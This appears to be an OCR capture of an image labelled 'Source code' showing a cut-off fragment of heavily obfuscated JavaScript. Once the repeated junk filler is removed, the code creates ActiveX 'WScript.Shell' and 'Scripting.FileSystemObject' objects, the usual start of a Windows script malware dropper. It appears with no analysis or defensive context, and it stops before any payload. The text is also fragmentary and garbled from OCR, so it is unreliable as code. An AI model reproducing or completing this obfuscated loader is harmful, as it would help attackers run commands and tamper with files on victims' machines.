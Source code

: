 ```javascript
'lnXPECLGJpWSFwRVsYtUhiO'+
'uBNMecoDlnXPECFGJpWSFwRVsYtUh'+
'iOuBNMecoDlnXPECNQbGJpWSFwRV'+
'sYtUh'+
'iOuBNMecoDlnXPEChGJpWSFwRVsYtUhiOuBNMec'+
'oDlnXPECkGJpWSFwRVsYtUhiOuBNMecoDlnXPE'+
'CeGJpWSF'+
'wRVsYtUhiOuBNMecoDlnXPECTGJp'+
'WSFwRVsYtUhiOuBNMecoDlnXPECAGJpWSFwRVsYtUhiOuBNMecoDlnXPECsvo'+
'SGJpWSFwRVsY'+
'tUhiOuBNMecoDlnXPEC =GJpWSFwRVsYtUhiOuBNMecoDlnXPEC GJpWSFwRVsYtUhiOuB'+
'NMecoDlnXPECnGJpWSFwRVsYtUhiOuBNMecoDlnXPECewGJpWSFwRVsYtUhiOuBNMecoDlnXPEC GJpWSFwRVsYtUhiOuBNMecoDlnXPECAGJpWSFwRVsYtUhiOuBNMecoDlnXPECctGJpWSFwRVsYtUhiOuBNMecoDlnXPECiGJpWSFwRVsYtUhiOuBNMecoDlnXPECveGJpWSFwRVsYtUhiOuBNMecoDlnXPECXGJpWSFwRVsYtUhiOuBNMecoDlnXPECOGJpWSFwRVsYtUhiOuB'+
'NMec'+
'oDlnX'+
'PECbjGJpWSFwRVsYtUhiOuBNMecoDlnXP'+
'ECeGJpWSFwRVsYtUhi'+
'OuBNMecoDln'+
'XPECctGJpWSFwRVsYtUhiOuBNMecoDlnXPEC(GJpWSFwRVsYtUhiOuBNMecoDlnXPEC"wGJpWSFw'+
'RVsYtUhiOu'+
'BNMecoDlnXPECscGJpWSFwRVsYtUh'+
'iOuBNMecoDlnXPECRGJpWSFwRVsYtU'+
'hiOuBNMec'+
'o'+
'D'+
'l'+
'nXPECiGJpWSFwRVsYtUhiOuB'+
'NMe'+
'coD'+
'lnXPECPGJpWS'+
'FwRVsYtUhiOuBNMecoDlnXPECt.GJpWSFwRVsYtUhiOuBNMecoDlnXPECsGJpWSFwRVsYtUhiOuBNMecoDlnXPEChellGJpWSFwRVsYtUhiOuBNMecoDlnXPEC"'+
'GJpWSFwRVsYtUhiOuBNMecoDlnXPEC);GJ'+
'p'+
'WSFwRVsYtUhiOuBNMecoDlnXPEC vGJpWSFwRVsYtUhiOuBNM'+
'ecoDlnXPE'+
'Car GJpW'+
'SFwRVsYtUhiOuBNMecoDlnXPECLVGJpWSFwRVsYtUhiOuBNMecoDl'+
'nXPECEGJpWSFwRV'+
'sYtUhiOuBNMecoDlnXPECXoGJpWSFwRVsYtUh'+
'iOuBNMecoDlnXPECyCsGJpWSFwRVsYtUhiOuBNMecoDlnXPE'+
'CiGJpWSFwRVsYtUhiOuBNMecoDlnXPECWaYhkGJpWSF'+
'wRVsYt'+
'UhiOuBNMecoDlnXPECr = GJpWSFwRVsYtUhiOuBNMec'+
'oDl'+
'nXPECnGJpWSFwRVsYtUhiOuBNMecoDlnXPECeGJpWSFwRVsYtUhiOuBNMecoDln'+
'XPECw GJpWSFwRVsYtUh'+
'iOuBNM'+
'ecoDlnXPECAGJpWSFwRVsYtU'+
'hiOuBNMecoDlnXPECctiGJpWSFwRVsYtUhiOuBNMecoDlnXPECvGJpWSFwRVsYtUhiOuBNMecoDlnXPECeGJpWSFwRVsYtUhiOuB'+
'NMecoDlnXPECXO'+
'GJpWSFwRVsYt'+
'UhiOuBNMecoDlnXPECbjeGJpWSFwRVsYtUhiOuBNMecoDlnXPECcGJpWSFwR'+
'VsYtUhiOuBNMeco'+
'Dln'+
'XPECt("G'+
'JpWSFwRVsYtUhiOuBNMecoDlnXPECScrIPtiGJpWS'+
'FwRVsYt'+
'UhiOuBNMecoDlnXPECnGJpWSFw'+
'RVsYtUhiOuBNMecoDlnXPECg.GJpWSFwRVsYtUhiOuBNMecoDlnXPE'+
'CfGJpWSFwR'+
```
